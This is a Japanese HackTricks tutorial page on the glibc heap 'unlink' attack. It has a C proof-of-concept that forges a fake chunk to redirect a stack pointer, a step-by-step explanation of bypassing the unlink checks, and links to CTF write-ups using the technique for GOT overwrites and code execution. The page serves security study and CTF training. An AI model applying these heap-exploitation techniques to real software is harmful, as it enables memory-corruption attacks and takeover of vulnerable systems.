# Unlink Attack

{% hint style="success" %}
AWSハッキングの学習と練習:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングの学習と練習: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksのサポート</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に参加するか、[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* ハッキングトリックを共有するために、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}

## 基本情報

この攻撃が発見された当初、主にWWW（Write What Where）を許可していましたが、いくつかの**チェックが追加**され、攻撃の新バージョンはより興味深く、より複雑で**無意味**になりました。

### コード例:

<details>

<summary>コード</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Altered from https://github.com/DhavalKapil/heap-exploitation/tree/d778318b6a14edad18b20421f5a06fa1a6e6920e/assets/files/unlink_exploit.c to make it work

struct chunk_structure {
size_t prev_size;
size_t size;
struct chunk_structure *fd;
struct chunk_structure *bk;
char buf[10];               // padding
};

int main() {
unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x8000);
chunk2 = malloc(0x8000);
printf("Stack pointer to chunk1: %p\n", &chunk1);
printf("Chunk1: %p\n", chunk1);
printf("Chunk2: %p\n", chunk2);

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->size = 0x8000;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x8000;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);
printf("Chunk1: %p\n", chunk1);
printf("Chunk1[3]: %x\n", chunk1[3]);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;

printf("%s\n", data);

return 0;
}

```
</details>

* 攻撃はtcachesが使用されている場合には機能しません（2.26以降）

### ゴール

この攻撃により、**チャンクへのポインタをそれ自体の3つ前のアドレスを指すように変更**することが可能です。この新しい場所（ポインタが配置されていた周辺）に興味深い情報がある場合、他の制御可能な割り当てやスタックなどがある場合、それらを読み取ったり上書きしてより大きな被害を引き起こすことが可能です。

* もしポインタがスタックに配置されていた場合、今はそれ自体の3つ前を指しているため、ユーザーがそれを読み取り、変更できる可能性があるため、スタックから機密情報を漏洩させたり、リターンアドレスを変更することが可能になります（おそらく）キャナリを触ることなく
* CTFの例では、このポインタが他の割り当てへのポインタの配列に配置されているため、それを3つ前を指すようにし、読み書きできるようにすると、他のポインタを他のアドレスを指すようにすることが可能です。\
ユーザーが他の割り当ても読み書きできる可能性があるため、情報を漏洩させたり、任意の場所（GOT内など）に新しいアドレスを上書きすることができます。

### 必要条件

* メモリ内（例：スタック）でいくつかの制御を持って、いくつかの属性に値を与えるためのチャンクを作成します。
* ポインタの偽のチャンクを設定するためのスタックリーク。

### 攻撃

* 2つのチャンク（chunk1とchunk2）があります
* 攻撃者はchunk1の内容とchunk2のヘッダーを制御しています。
* chunk1では、攻撃者は偽のチャンクの構造を作成します：
* 保護をバイパスするために、`size`フィールドが正しいことを確認して、`corrupted size vs. prev_size while consolidating`エラーを回避します
* そして偽のチャンクの`fd`と`bk`フィールドが、chunk1のポインタが格納されている場所を指すようにします。それぞれ-3と-2のオフセットで、つまり`fake_chunk->fd->bk`と`fake_chunk->bk->fd`がメモリ（スタック）内の実際のchunk1アドレスが配置されている位置を指すようにします：

<figure><img src="../../.gitbook/assets/image (1245).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

* chunk2のヘッダーは変更され、前のチャンクが使用されていないことと、偽のチャンクが含まれるサイズであることが示されます。
* 2番目のチャンクが解放されると、この偽のチャンクがリンク解除されます：
* `fake_chunk->fd->bk` = `fake_chunk->bk`
* `fake_chunk->bk->fd` = `fake_chunk->fd`
* 以前は、`fake_chunk->fd->bk`と`fake_chunk->bk->fd`が同じ場所を指すようにされていました（`chunk1`が格納されていたスタックの場所、つまり有効なリンクリストでした）。**両方が同じ場所を指している**ため、最後の1つだけが（`fake_chunk->bk->fd = fake_chunk->fd`）**効果を持ちます**。
* これにより、スタック内のchunk1へのポインタがスタック内の3つ前に格納されているアドレス（またはバイト）に上書きされます。
* したがって、攻撃者が再びchunk1の内容を制御できる場合、スタック内に書き込むことができ、おそらくキャナリをスキップしてリターンアドレスを上書きし、ローカル変数の値とポインタを変更することが可能になります。再びスタックに格納されているchunk1のアドレスを異なる場所に変更することができるため、攻撃者が再びchunk1の内容を制御できる場合、どこにでも書き込むことができます。
* この攻撃が可能だったのは、**アドレスがスタックに格納されていた**ためです。リスクと悪用は、**偽のチャンクのアドレスがどこに格納されているか**に依存する可能性があります。

<figure><img src="../../.gitbook/assets/image (1246).png" alt=""><figcaption><p><a href="https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit">https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit</a></p></figcaption></figure>

## 参考文献

* [https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink\_exploit)
* CTFでunlink攻撃を見つけるのは奇妙かもしれませんが、この攻撃が使用されたライトアップがある場合があります：
* CTFの例：[https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html](https://guyinatuxedo.github.io/30-unlink/hitcon14\_stkof/index.html)
* この例では、スタックの代わりにmallocされたアドレスの配列があります。unlink攻撃は、この場所にチャンクを割り当てることができるように行われ、その後、これらのアドレスの配列のポインタを制御する機能があります。その後、アドレスをGOTにポイントし、関数アドレスを変更してリークとRCEを取得することが可能です。
* 別のCTFの例：[https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html](https://guyinatuxedo.github.io/30-unlink/zctf16\_note2/index.html)
* 前の例と同様に、割り当てのアドレスの配列があります。unlink攻撃を実行して、最初の割り当てへのアドレスを配列の先頭の数ポジション前を指すようにします。その後、この新しい位置に割り当てを上書きすることが可能です。そのため、他の割り当てのポインタをGOTにポイントするように上書きし、libcリークを取得し、その後、atoiのGOTをワンガジェットのアドレスに上書きすることが可能です。
* unlink攻撃に非常に似た脆弱性を悪用するカスタムmallocおよびfree関数を使用したCTFの例：[https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html](https://guyinatuxedo.github.io/33-custom\_misc\_heap/csaw17\_minesweeper/index.html)
* カスタムmallocのFDとBKポインタを制御できるオーバーフローがあり、それが（カスタム）解放されるであろうカスタムmallocのFDとBKポインタを制御できます。さらに、ヒープには実行ビットがあり、ヒープアドレスをリークさせ、GOTからヒープチャンクに関数をポイントし、シェルコードを実行することが可能です。
